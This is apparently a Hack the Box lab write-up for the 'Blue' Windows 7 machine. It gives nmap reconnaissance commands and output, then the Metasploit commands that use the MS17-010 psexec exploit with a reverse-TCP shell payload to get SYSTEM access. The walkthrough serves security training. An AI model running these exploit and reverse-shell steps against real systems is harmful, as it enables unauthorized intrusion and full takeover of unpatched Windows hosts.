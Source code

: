# Machine: Blue

## Overview

This write-up details my approach to compromising the "Blue" machine on Hack the Box. This machine is a Windows 7 Professional Service Pack 1 system, vulnerable to the infamous MS17-010 exploit. Below are the steps I followed to successfully exploit the machine and obtain the necessary flags.

## Steps to Compromise the Machine

### 1. Setup and Reconnaissance

Port scanning:

```bash
nmap -sS -p- -v <IP> -oN full_ports.txt -oX full_ports.xml
```

This command performs a SYN scan on all ports. The scan revealed the following open ports:

```bash
PORT      STATE    SERVICE
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
49152/tcp open     unknown
49153/tcp open     unknown
49154/tcp open     unknown
49155/tcp open     unknown
49156/tcp open     unknown
49157/tcp open     unknown
```
### 2. Detailed Service Scan

I extracted the open ports and saved them in a well-formatted list:

```bash
awk 'BEGIN{FS="/";ORS=","} {print $1}' full_ports.txt > all_ports
```

I performed a version and script scan:

```bash
nmap -sV -sC -p $(cat all_ports) <IP> -oN v_ports.txt -oX v_ports.xml
```

This command performs a version and script scan on the identified open ports, providing detailed information about the target system.

### 3. Vulnerability Analysis

The detailed scan identified the target system as Windows 7 Professional Service Pack 1, with SMB enabled:

```bash
Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-06-09T09:24:45+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-06-09T08:24:41
|_  start_date: 2024-06-09T03:29:22
|_clock-skew: mean: -19m56s, deviation: 34m35s, median: 0s
```
### 4. Exploitation

Setting up Metasploit:

```bash
systemctl start postgresql && msfconsole
workspace -a htb-blue
db_import v_ports.xml
```

Checking Vulnerability with MS17-010:

```bash
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS <IP>
run
```

The target was confirmed to be vulnerable to MS17-010.

Exploiting with MS17-010:

```bash
use exploit/windows/smb/ms17_010_psexec
set RHOSTS <IP>
set PAYLOAD windows/shell/reverse_tcp
run
```

This successfully provided a reverse shell on the target system.

### 5. Post-Exploitation

Privilege Escalation:

```bash
whoami
```

Confirmed privileges as NT AUTHORITY\SYSTEM.

## Flag Capture:

Located and captured the user and root flags:

* User Flag: user.txt
* Root Flag: root.txt

## Conclusion

Compromising the Blue machine involved identifying open ports, analyzing the target system, and exploiting the MS17-010 vulnerability. This exercise reinforced the importance of regular patching and provided practical experience with a well-known Windows exploit.

***
